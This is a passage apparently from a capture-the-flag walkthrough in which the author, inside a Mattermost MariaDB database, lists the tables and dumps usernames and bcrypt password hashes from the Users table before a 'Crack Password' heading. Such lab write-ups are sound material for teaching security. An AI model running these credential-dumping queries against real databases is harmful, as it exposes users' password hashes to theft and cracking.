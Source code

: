 I can see from the prompt that I’m already using the mattermost db, but if I needed to switch, would do that. The mattermost database has a lot of tables:`use mattermost`

    MariaDB [mattermost]> show tables;
    +------------------------+
    | Tables_in_mattermost   |
    +------------------------+
    | Audits                 |
    | Bots                   |
    ...[snip]...
    | UploadSessions         |
    | UserAccessTokens       |
    | UserGroups             |
    | UserTermsOfService     |
    | Users                  |
    +------------------------+
    46 rows in set (0.001 sec)
    

I’ll start with the table:`users`

    MariaDB [mattermost]> select Username,Password from Users;
    +----------------------------------+--------------------------------------------------------------+
    | Username                         | Password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    | qqqq                             | $2a$10$5B3h2oM/j0qeugNf9/MwV.nYW1uBCNBnQrJr8kS0iDBuINB4mu1HC |
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
    | oxdfa                            | $2a$10$W.i4QH1wBaxqKAUipiFkbOlVUAXWjwyuzIQuPi8T.tFqxeg28kUj2 |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    | oxdf                             | $2a$10$EA7sQu.R9OSOvLUUb/kWvetfiqKJfcn1Pzvj3xvYFZgK5Q1YJ8WyK |
    +----------------------------------+--------------------------------------------------------------+
    

A lot of those look like other users or me. I’ll focus on the root user.

### Crack Password
